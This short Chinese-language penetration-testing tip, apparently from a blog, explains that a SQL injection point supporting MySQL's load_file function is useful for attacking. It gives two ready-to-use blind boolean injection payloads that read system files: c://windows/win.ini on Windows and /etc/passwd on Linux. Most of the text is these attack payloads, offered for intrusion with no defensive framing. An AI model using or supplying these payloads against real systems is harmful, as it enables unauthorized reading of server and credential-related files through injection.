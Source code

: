 在sql注入点中,如果一个注入点支持load_file函数来读取文件的话,无疑对我们进行渗透来说是一个好消息  

分享一下一条语句检测是否支持load_file读取文件  


Windows 注入点判断文件是否存在  

```
1 and 1=if(ascii(mid(load_file('c://windows/win.ini'),1,1))>0,1,2)
```

Linux  

```
1 and 1=if(ascii(mid(load_file('/etc/passwd'),1,1))>0,1,2) 
```
